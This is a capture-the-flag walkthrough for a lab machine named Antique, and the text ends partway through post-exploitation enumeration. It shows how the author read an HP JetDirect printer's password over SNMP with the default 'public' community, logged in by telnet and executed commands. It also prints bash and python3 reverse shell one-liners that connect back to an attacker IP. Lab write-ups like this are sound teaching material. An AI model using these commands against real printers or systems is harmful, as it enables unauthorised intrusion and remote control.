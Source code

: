 # Antique

## Information Gathering
Antique
10.10.11.107

## Enumeration
Nmap scan:<br>
```bash
# Nmap 7.92 scan initiated Wed Feb  2 20:57:56 2022 as: nmap -A -p- -oN nmap/antique.nmap 10.10.11.107
Nmap scan report for 10.10.11.107
Host is up (0.039s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
23/tcp open  telnet?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns, tn3270: 
|     JetDirect
|     Password:
|   NULL: 
|_    JetDirect
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port23-TCP:V=7.92%I=7%D=2/2%Time=61FB36C5%P=x86_64-pc-linux-gnu%r(NULL,
SF:F,"\nHP\x20JetDirect\n\n")%r(GenericLines,19,"\nHP\x20JetDirect\n\nPass
SF:word:\x20")%r(tn3270,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(GetRequ
SF:est,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(HTTPOptions,19,"\nHP\x20
SF:JetDirect\n\nPassword:\x20")%r(RTSPRequest,19,"\nHP\x20JetDirect\n\nPas
SF:sword:\x20")%r(RPCCheck,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(DNSV
SF:ersionBindReqTCP,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(DNSStatusRe
SF:questTCP,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(Help,19,"\nHP\x20Je
SF:tDirect\n\nPassword:\x20")%r(SSLSessionReq,19,"\nHP\x20JetDirect\n\nPas
SF:sword:\x20")%r(TerminalServerCookie,19,"\nHP\x20JetDirect\n\nPassword:\
SF:x20")%r(TLSSessionReq,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(Kerber
SF:os,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(SMBProgNeg,19,"\nHP\x20Je
SF:tDirect\n\nPassword:\x20")%r(X11Probe,19,"\nHP\x20JetDirect\n\nPassword
SF::\x20")%r(FourOhFourRequest,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(
SF:LPDString,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(LDAPSearchReq,19,"
SF:\nHP\x20JetDirect\n\nPassword:\x20")%r(LDAPBindReq,19,"\nHP\x20JetDirec
SF:t\n\nPassword:\x20")%r(SIPOptions,19,"\nHP\x20JetDirect\n\nPassword:\x2
SF:0")%r(LANDesk-RC,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(TerminalSer
SF:ver,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(NCP,19,"\nHP\x20JetDirec
SF:t\n\nPassword:\x20")%r(NotesRPC,19,"\nHP\x20JetDirect\n\nPassword:\x20"
SF:)%r(JavaRMI,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(WMSRequest,19,"\
SF:nHP\x20JetDirect\n\nPassword:\x20")%r(oracle-tns,19,"\nHP\x20JetDirect\
SF:n\nPassword:\x20")%r(ms-sql-s,19,"\nHP\x20JetDirect\n\nPassword:\x20")%
SF:r(afp,19,"\nHP\x20JetDirect\n\nPassword:\x20")%r(giop,19,"\nHP\x20JetDi
SF:rect\n\nPassword:\x20");
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 5.3 - 5.4 (94%), Linux 2.6.32 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.4 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 1720/tcp)
HOP RTT      ADDRESS
1   39.29 ms 10.10.14.1
2   39.33 ms 10.10.11.107

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Feb  2 21:01:14 2022 -- 1 IP address (1 host up) scanned in 198.44 seconds

```

## Exploitation
Just a telnet service. It appears to be a HP JetDirect but I don't have a model or version. Doing a little bit of Googleing and I find <a href="http://www.irongeek.com/i.php?page=security/networkprinterhacking">this</a> really good blog on printer hacking. The blog also refences <a href="https://bugtraq.securityfocus.com/detail/001601c2e1a9$211b11e0$0d01a8c0">this bugtraq</a> blog which also has some good information.<br>
You can use a <b>SNMP toolkit</b> to read the following object identifier (OID) from the printer.<br>
.iso.org.dod.internet.private.enterprise.hp.nm.system.net-peripheral.net-printer.generalDeviceStatus.gdPassword (In numerical form: .1.3.6.1.4.1.11.2.3.9.1.1.13.0)
Most people leave their SNMP community name as "public".

```bash
snmpget -v 1 -c public 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0

iso.3.6.1.4.1.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
```
Converting the BITS from hex to ascii yields: 
```
P@ssw0rd@123!!123..q.."2Rbs..3CSs..$4...Eu..WGW.(8i	.IY...a..A...".1&..1.A5
```
Looks like a password has been leaked. I can use this to log into the machine
```bash
telnet 10.10.11.107 23

Trying 10.10.11.107...
Connected to 10.10.11.107.
Escape character is '^]'.

HP JetDirect


Password: P@ssw0rd@123!!123

Please type "?" for HELP
> ?

To Change/Configure Parameters Enter:
Parameter-name: value <Carriage Return>

Parameter-name Type of value
ip: IP-address in dotted notation
subnet-mask: address in dotted notation (enter 0 for default)
default-gw: address in dotted notation (enter 0 for default)
syslog-svr: address in dotted notation (enter 0 for default)
idle-timeout: seconds in integers
set-cmnty-name: alpha-numeric string (32 chars max)
host-name: alpha-numeric string (upper case only, 32 chars max)
dhcp-config: 0 to disable, 1 to enable
allow: <ip> [mask] (0 to clear, list to display, 10 max)

addrawport: <TCP port num> (<TCP port num> 3000-9000)
deleterawport: <TCP port num>
listrawport: (No parameter required)

exec: execute system commands (exec id)
exit: quit from telnet session
```
I can use exec to execute commands and get the user flag.

## Privelge Escalation
Using this python3 command to get a fully interactive reverse shell. I tried doing the classic: <b>bash -i >& /dev/tcp/10.10.10.10/1337 0>&1</b> never seemed to work.
```bash
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.122",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

### Enumeration
```bash
hostname
antique

uname -a 
Linux antique 5.13.0-051300-generic #202106272333 SMP Sun Jun 27 23:36:43 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux

cat /etc/issue
Ubuntu 20.04.3 LTS \n \l

env 
SHELL=/usr/sbin/nologin
SUDO_GID=0
SUDO_COMMAND=/usr/bin/authbind --deep python3 /var/spool/lpd/telnet.py
SUDO_USER=root
PWD=/var/spool/lpd
LOGNAME=lp
LD_PRELOAD=/usr/lib/authbind/libauthbind.so.1
HOME=/var/spool/lpd
LANG=en_US.UTF-8
TERM=xterm
USER=lp
SHLVL=1
AUTHBIND_LIB=/usr/lib/authbind/libauthbind.so.1
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
AUTHBIND_LEVELS=y
SUDO_UID=0
MAIL=/var/mail/lp
_=/usr/bin/env
OLDPWD=/var/spool/lpd

